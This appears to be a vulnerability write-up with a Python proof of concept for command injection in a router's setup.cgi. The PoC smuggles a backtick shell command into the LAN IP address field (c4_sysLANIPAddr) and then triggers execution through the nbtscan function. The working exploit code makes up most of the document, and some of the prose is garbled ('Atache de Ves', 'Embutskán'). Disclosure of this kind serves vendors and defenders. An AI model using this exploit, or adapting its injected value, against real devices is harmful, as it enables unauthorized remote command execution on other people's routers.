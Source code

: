  The LAN Setup function on the start.htm interface does not detect the backend of the configured lan_ipaddr, and users can construct malicious code through this function, access the setup.cgi nbtscan function, execute malicious code, and remotely execute commands.

The home page of Atache de Ves will invoke the Embutskán function

![image](https://github.com/user-attachments/assets/f4249368-d0e9-4272-b0c2-4703081b9782)

  setup.cgi's nbtscan function does not detect lan_ipaddr, and if the lan_ipaddr is constructed as malicious code and inserted, it will cause arbitrary command execution.

![image](https://github.com/user-attachments/assets/65fa23e5-5de5-42b3-b435-5e2723f62967)

There is a LAN Setup function in the home page, and you can set the IP addr

![image](https://github.com/user-attachments/assets/b71d1e6a-c259-4869-94b5-b0efc1730a1e)

Set c4_sysLANIPAddr=192.168.0.1\`printf HELLOWORLD >/tmp/hacked\` to send the packet

![image](https://github.com/user-attachments/assets/d1d2f638-96bf-4628-ba14-32ea6ce282ed)

Then tap on Atache de Ves to trigger Embutscan

![image](https://github.com/user-attachments/assets/3a3d96dd-347c-4125-8bda-547abc42d40e)

#POC






```python
import requests


# POST /setup.cgi HTTP/1.1
# Host: 192.168.0.1
# Content-Length: 676
# Cache-Control: max-age=0
# Authorization: Basic YWRtaW46cGFzc3dvcmQ=
# Upgrade-Insecure-Requests: 1
# Origin: http://192.168.0.1
# Content-Type: application/x-www-form-urlencoded
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Referer: http://192.168.0.1/lan.htm&todo=cfg_init
# Accept-Encoding: gzip, deflate, br
# Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
# Cookie: uid=82RDagwWO
# Connection: close

# sysLANIPAddr1=192&sysLANIPAddr2=168&sysLANIPAddr3=0&sysLANIPAddr4=1&sysLANSubnetMask1=255&sysLANSubnetMask2=255&sysLANSubnetMask3=255&sysLANSubnetMask4=0&sysRIPDirection=0&sysRIPVersion=1&sysPoolStartingAddr1=192&sysPoolStartingAddr2=168&sysPoolStartingAddr3=0&sysPoolStartingAddr4=2&sysPoolFinishAddr1=192&sysPoolFinishAddr2=168&sysPoolFinishAddr3=0&sysPoolFinishAddr4=254&apply=Apply&h_sysRIPDirection=0&h_sysRIPVersion=1&h_dhcp_server=disable&h_acc_lan=disable&c4_sysLANIPAddr=192.168.0.1&c4_sysLANSubnetMask=255.255.255.0&c4_sysPoolStartingAddr=192.168.0.2&c4_sysPoolFinishAddr=192.168.0.254&h_ruleSelect=0&h_natEnable=enabled&todo=save&this_file=lan.htm&next_file=lan.htm

cmd = "`printf HELLOWORLD >/tmp/hacked`"

burp0_url = "http://192.168.0.1/setup.cgi"
burp0_headers = {
    "Host": "192.168.0.1",
    "Content-Length": "676",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46cGFzc3dvcmQ=",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.1",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.1/lan.htm&todo=cfg_init",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7",
    "Cookie": "uid=82RDagwWO",
    "Connection": "close"
}
burp0_data = {
    "sysLANIPAddr1": "192",
    "sysLANIPAddr2": "168",
    "sysLANIPAddr3": "0",
    "sysLANIPAddr4": "1",
    "sysLANSubnetMask1": "255",
    "sysLANSubnetMask2": "255",
    "sysLANSubnetMask3": "255",
    "sysLANSubnetMask4": "0",
    "sysRIPDirection": "0",
    "sysRIPVersion": "1",
    "sysPoolStartingAddr1": "192",
    "sysPoolStartingAddr2": "168",
    "sysPoolStartingAddr3": "0",
    "sysPoolStartingAddr4": "2",
    "sysPoolFinishAddr1": "192",
    "sysPoolFinishAddr2": "168",
    "sysPoolFinishAddr3": "0",
    "sysPoolFinishAddr4": "254",
    "apply": "Apply",
    "h_sysRIPDirection": "0",
    "h_sysRIPVersion": "1",
    "h_dhcp_server": "disable",
    "h_acc_lan": "disable",
    "c4_sysLANIPAddr": f"192.168.0.1{cmd}",
    "c4_sysLANSubnetMask": "255.255.255.0",
    "c4_sysPoolStartingAddr": "192.168.0.2",
    "c4_sysPoolFinishAddr": "192.168.0.254",
    "h_ruleSelect": "0",
    "h_natEnable": "enabled",
    "todo": "save",
    "this_file": "lan.htm",
    "next_file": "lan.htm"
}

response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
# print(response.text)
print("burp0_posted . . .")
print("------------------")

# GET /setup.cgi?todo=nbtscan&next_file=devices.htm HTTP/1.1
# Host: 192.168.0.1
# Authorization: Basic YWRtaW46cGFzc3dvcmQ=
# Upgrade-Insecure-Requests: 1
# User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36
# Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
# Referer: http://192.168.0.1/menu.htm
# Accept-Encoding: gzip, deflate, br
# Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7
# Cookie: uid=82RDagwWO
# Connection: close

burp1_url = "http://192.168.0.1/setup.cgi"
burp1_headers = {
    "Host": "192.168.0.1",
    "Authorization": "Basic YWRtaW46cGFzc3dvcmQ=",
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.58 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.1/menu.htm",
    "Accept-Encoding": "gzip, deflate, br",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-US;q=0.7",
    "Cookie": "uid=82RDagwWO",
    "Connection": "close"
}
burp1_params = {
    "todo": "nbtscan",
    "next_file": "devices.htm"
}

response = requests.get(burp1_url, headers=burp1_headers, params=burp1_params)
# print(response.text)    
print("burp1_posted . . .")

```
![image](https://github.com/user-attachments/assets/3d35060e-4f0f-43c6-a189-d4a88ed503e2)




